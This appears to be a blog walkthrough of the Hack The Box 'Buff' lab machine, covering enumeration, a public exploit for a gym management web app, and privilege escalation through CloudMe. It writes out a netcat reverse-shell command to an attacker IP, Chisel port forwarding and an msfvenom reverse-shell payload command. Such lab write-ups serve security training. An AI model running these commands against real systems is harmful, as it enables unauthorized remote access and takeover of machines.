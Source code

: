 ```yaml
---
published: true
title: Hackthebox Buff walkthrough
date: 2021-11-26 00:20:00 +0200
categories: [HTB]
tags: HTB
---
```

<img src="https://i.ibb.co/WtCrJ77/buff.png" alt="buff" border="0">

<h1>Enumeration</h1>
<blockquote>
<p>ِLet`s begain scanning with NMAP</p>
</blockquote>

<img src="https://i.ibb.co/0rj2J7D/Enumeration.png" alt="Enumeration" border="0">
  
<blockquote>
<p>ِTwo ports are open 8080 , 7680</p>
</blockquote>  
  
<img src="https://i.ibb.co/T40QWjW/HTTP-Page.png" alt="HTTP-Page" border="0">
  
<blockquote>
<p>ِAfter opening the webapp at 8080 i found out it`s from ProjectWorld.in</p>
<p>And i searched for the project</p>
<p>https://projectworlds.in/free-projects/php-projects/gym-management-system-project-in-php/</p> 
<p>I searched for public exploit for the project and i found this <a href="https://www.exploit-db.com/exploits/48506">Exploit</a></p>
</blockquote> 
  
<h1>Exploiting</h1>
<p>Python script</p>
<img src="https://i.ibb.co/J3wX1Y0/Authenticated.png" alt="Authenticated" border="0">

<blockquote>
<p>ِWe got in !</p>
</blockquote>

<blockquote>
<p>ِLet`s upload nc.exe</p>
</blockquote>
<img src="https://i.ibb.co/N9286zX/Uploading.png" alt="Uploading" border="0">

<blockquote>
<p>Let`s get our reverse shell</p> 
<p>ِC:\xampp\htdocs\gym\upload> powershell -c ".\nc.exe 10.10.10.10 1234 -e powershell"</p>
</blockquote>

<img src="https://i.ibb.co/cD5Zn57/Shaun.png" alt="Shaun" border="0">
<blockquote>
<p>ِWe got shell as SHAUN ! , Let`s get the user hash.</p>
</blockquote>

<h1>USER Flag !</h1>

<img src="https://i.ibb.co/nmtcnfR/USER.png" alt="USER" border="0">

<h1>Privilege Escalation</h1>
<blockquote>
<p>I uploaded WinPEAS.exe and after i ran it i found a vulnerable app called Cloudme.exe,it`s running on 8888 port </p>
<p>I search for an exploit and found these</p>
</blockquote>
<img src="https://i.ibb.co/JrfGmMk/image-3.png" alt="image-3" border="0">

<blockquote>
<p>ِWe need to use portforwarding to run the exploit, you can use CHISEL or PLINK.</p>
<p>It should be compiled to exe to run on windows i used golang</p>
<p>env GOOS=windows GOARCH=amd64 go build -o chisel-x64.exe -ldflags "-s -w" </p>
<p>You can compile it by this command</p> 
<p>After compilt it to exe , let`s upload it </p> 
</blockquote>

<img src="https://i.ibb.co/GxG19W1/uploading-chisel.png" alt="uploading-chisel" border="0">


<blockquote>
<p>ِI started the server at 8080 on my machine</p>
</blockquote>

<img src="https://i.ibb.co/8dyHfzN/on-your-linux-server.png" alt="on-your-linux-server" border="0">

<blockquote>
<p>ِWe need to start Chisel on the victim machine to connect</p>
</blockquote>

<img src="https://i.ibb.co/5B6KMN7/Chisel-on-victim.png" alt="Chisel-on-victim" border="0">

<h1>Exploiting Cloudme</h1>
<blockquote>
<p> We need to adjust msfvenom cmd to get a shell to our machine</p> 
<p>So you to copy this and adjust your Ip address to get your shell
"msfvenom -p windows/shell_reverse_tcp LHOST=0.0.0.0 LPORT=4444 EXITFUNC=thread -b "\x00\x0d\x0a" -f python" 
<a href="https://www.exploit-db.com/exploits/48506">Exploit</a></p>
<p>Run your listner on the port you choosed in the payload then run the EXPLOIT ..</p>
</blockquote>

<img src="https://i.ibb.co/1r8Xqc2/Listner.png" alt="Listner" border="0">
<img src="https://i.ibb.co/b374fJZ/Got-in.png" alt="Got-in" border="0">

<h1>ROOT Flag !</h1>
<img src="https://i.ibb.co/By7fdbL/admin-hash.png" alt="admin-hash" border="0">

<h1>Thanks for Reading 🙏</h1>
